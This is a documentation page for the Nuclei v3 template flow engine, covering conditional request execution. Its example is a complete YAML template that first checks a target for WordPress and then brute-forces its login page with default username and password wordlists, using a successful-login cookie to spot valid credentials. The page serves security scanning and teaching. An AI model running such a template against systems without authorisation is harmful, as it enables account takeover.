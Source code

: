 # Flow

Learn about the template flow engine in Nuclei v3

## **Overview**

The template flow engine was introduced in nuclei v3, and brings two significant enhancements to Nuclei:

- The ability to [**conditionally execute requests**](https://docs.projectdiscovery.io/templates/protocols/flow#conditional-execution)
- The [**orchestration of request execution**](https://docs.projectdiscovery.io/templates/protocols/flow#request-execution-orchestration)

These features are implemented using JavaScript (ECMAScript 5.1) via the [**goja**](https://github.com/dop251/goja) backend.

## **Conditional Execution**

Many times when writing complex templates we might need to add some extra checks (or conditional statements) before executing certain part of request.

An ideal example of this would be when [**bruteforcing wordpress login**](https://cloud.projectdiscovery.io/public/wordpress-weak-credentials) with default usernames and passwords, but if we carefully re-evaluate this template, we can see that template is sending 276 requests without even checking, if the url actually exists or the target site is actually a wordpress site.

With addition of flow in Nuclei v3 we can re-write this template to first check if the target is a wordpress site, if yes then bruteforce login with default credentials and this can be achieved by simply adding one line of content i.e **`flow: http(1) && http(2)`** and nuclei will take care of everything else.

```yaml
id: wordpress-bruteforce
info:
  name: WordPress Login Bruteforce
  author: pdteam
  severity: high

flow: http(1) && http(2)

http:
  - method: GET
    path:
      - "{{BaseURL}}/wp-login.php"
    matchers:
      - type: word
        words:
          - "WordPress"

  - method: POST
    path:
      - "{{BaseURL}}/wp-login.php"
    body: |
      log={{username}}&pwd={{password}}&wp-submit=Log+In
    attack: clusterbomb
    payloads:
      users: helpers/wordlists/wp-users.txt
      passwords: helpers/wordlists/wp-passwords.txt
    matchers:
      - type: dsl
        dsl:
          - status_code == 302
          - contains_all(header, "/wp-admin","wordpress_logged_in")
```